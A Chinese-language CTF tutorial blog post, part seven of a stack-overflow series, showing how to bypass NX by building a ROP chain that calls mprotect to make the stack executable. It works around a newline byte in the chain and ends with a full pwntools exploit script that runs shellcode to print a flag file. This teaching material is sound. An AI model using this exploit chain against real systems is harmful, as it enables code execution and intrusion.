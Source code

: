 ```yaml
---
id: 782
layout: post
title: '二进制安全之栈溢出（七）'
date: 2017-10-26 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


本篇文章会使用一个稍复杂的 gadget，同时解决 gadget 含有换行符带来的问题。

### mprotect

之前使用 `vmmap` 命令的时候会注意到有一列是内存地址的权限，`rwx` 和文件系统的一致，NX 不可执行就是没有 `x` 权限，当然这不是绝对的，使用 `mprotect` 可以修改这个权限，这样的话，就可以在栈上执行 shellcode 了。

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/virusdefender/Desktop/pwn/new/vuln
0x00600000         0x00601000         r--p	/home/virusdefender/Desktop/pwn/new/vuln
0x00601000         0x00602000         rw-p	/home/virusdefender/Desktop/pwn/new/vuln
0x00602000         0x00623000         rw-p	[heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 rw-p	mapped
0x00007ffff7dd7000 0x00007ffff7dfd000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fda000 0x00007ffff7fdd000 rw-p	mapped
0x00007ffff7ff6000 0x00007ffff7ff8000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```

函数原型是 `int mprotect(void *addr, size_t len, int prot);`，`addr` 是内存地址开头，`len` 是长度，`prot` 就是权限位，在 manpage 上有 `PROT_WRITE`、`PROT_EXEC`、`PROT_READ` 等几项，权限是位运算之后的数字，根据宏定义， `rwx` 就是 `0x1 | 0x2 | 0x4`。

需要注意的是 `mprotect` 修改的内存的起始地址必须和内存页对齐，范围也必须是内存页大小的整数倍，否则系统调用会失败，详见 manpage。`getconf PAGESIZE` 可以获取内存页大小，默认是 `4096`。

### ROP 构造 gadget

`mprotecct` 有三个参数，就会使用 `rdi, rsi, rdx` 寄存器。如果想让整个栈区可执行的话，在 `vmmap` 可以获取栈区的开头和结尾地址，那三个寄存器的值就分别是 `0x00007ffffffde000`、`0x00007ffffffff000 - 0x00007ffffffde000` 和 `0x1 | 0x2 | 0x4`。然后在调用 `mproect` 系统系统调用的时候，`rax` 寄存器是系统调用号 `0xa`。所以按照之前的文章，只要能找到下面这些 gadget 就可以了。

```
pop rdi; ret;
pop rsi; ret;
pop rdx; ret;
pop rax; ret;
syscall; ret;
```

但是有些事情总不会太直接，能在二进制文件中只能找到两个 gadget，其中第二个有一个寄存器是没用的，但是并不影响。

```
➜  new ROPgadget --binary vuln | grep "pop rdi"
0x0000000000400803 : pop rdi ; ret

➜  new ROPgadget --binary vuln | grep "pop rsi"
0x0000000000400801 : pop rsi ; pop r15 ; ret
```

这个时候可以去 glibc 中找了。

```
# 这个文件处理比较慢，可以先保存下结果
➜  new ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 > libc.gadget

➜  new grep "pop rdx ; ret" libc.gadget
0x0000000000001b92 : pop rdx ; ret

➜  new grep "pop rax ; ret" libc.gadget
0x0000000000033542 : add al, ch ; pop rax ; ret

➜  new grep "syscall ; ret" libc.gadget
0x00000000000bc375 : syscall ; ret
```

如果已知 glibc 的加载基址，使用基址加上上面的地址就可以了，这个基址目前可以在 `vmmap` 或者 `ldd` 中看到。

### 0xa

如果按照上面的说法直接写 shellcode，会发现栈上的数据并不全，再认真的调试就会发现，shellcode 中含有 `0xa`，也就是 `\n` 的 ascii，因为 shellcode 是 gets 读入的，所以就会在这里被截断。

我选择了先 `pop rax` 为 `0x9`，然后 `add rax, 1； ret` 的 gadget。

```
➜  new grep "add rax, 1 ; ret" libc.gadget
0x00000000000abf40 : add rax, 1 ; ret
```

### shellcode

```python
from pwn import *

student = 0x7fffffffe2f0
shellcode = "1925\n"
cat = asm(shellcraft.amd64.linux.cat("flag"), arch="amd64", os="linux")
shellcode += cat + "A" * (0x7fffffffe348 - student - len(cat))

# pop rdi; ret
shellcode += p64(0x0000000000400803)
# mprotect arg1 addr -> rdi
shellcode += p64(0x00007ffffffde000)

# pop rsi; pop r15; ret;
shellcode += p64(0x0000000000400801)
# mprotect arg2 size -> rsi
shellcode += p64(0x00007ffffffff000 - 0x00007ffffffde000)
# -> r15
shellcode += p64(0)

libc_base = 0x00007ffff7a0d000

# pop rdx; ret;
shellcode += p64(libc_base + 0x0000000000001b92)
# mprotect arg3 rwx -> rdx
shellcode += p64(0x1 | 0x2 | 0x4)

# pop rax; ret
shellcode += p64(libc_base + 0x0000000000033544)
# -> rax
shellcode += p64(0xa - 1)

# add rax, 1; ret
shellcode += p64(libc_base + 0x00000000000abf40)

# syscalll; ret
shellcode += p64(libc_base + 0x00000000000bc375)

# shellcode
shellcode += p64(student)

print shellcode
```

运行后可以看到栈区的内存已经是 `rwx` 的权限了。

```
0x00007ffffffde000 0x00007ffffffff000 rwxp	[stack]
```

